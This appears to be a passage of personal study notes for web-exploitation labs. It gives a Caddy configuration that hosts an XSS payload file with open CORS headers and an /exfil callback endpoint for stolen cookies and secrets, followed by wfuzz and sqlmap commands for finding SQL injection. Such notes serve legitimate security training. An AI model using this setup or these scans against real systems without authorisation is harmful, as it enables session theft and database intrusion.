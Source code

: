 ### Cross Origin Attacks

No specific CSRF scenarios were ever encountered in the labs, however you  may run into issues with CORS and self hosted payloads, such as external XSS.js files. The easiest way to fix this after much research is to use the http web server called Caddy

1. Install: sudo apt get install caddy
2. From within the directory where your xss.js file lives, create a file called Caddyfile
3.  Contents of Caddyfile
 ```
http://yourip:80

file_server browse

header Access-Control-Allow-Origin *
header Access-Control-Allow-Methods *
header Access-Control-Allow-Headers *

log {
        output file caddylog
        format json
}
respond /exfil 200
```
Note that /exfil is the URL endpoint you want any cookie / secrets stealers to call back to 

To host your xss.js file using Caddy, from within the directory that contains the Caddyfile and xss.js file run `caddy run` 

Then to view any incoming requests / logs you can `cat caddylog` or to view just the pertinent information run `tail -f caddylog | jq '.request | del(.headers)'`

### SQLi

<b>wfuzz to test for sqli</b>
GET: `wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -u "$URL/index.php?id=FUZZ"`

POST: `wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d "id=FUZZ" -u "$URL/index.php"`

If you need to add any cookies
`wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d "id=FUZZ" -u "$URL/index.php" -H "Cookie: PHPSESSID=2feb03393e44b1d0c0f20a11f62a8d1f`
--hh hides content length specified 
--hc hides status codes specified

<b>Sqlmap</b>
First, capture the request you are interested in via Burpsuite, send the request to repeater, right click on the request and select "Copy to file" give the file a name such as sqli_login_page

Next, run `sqlmap -r sqli_login_page -p param` where param is the parameter from the request youd like to inject into

Note: The labs indicate that if the host is Windows it is highly likely this will be your RCE vector via xp_cmdshell
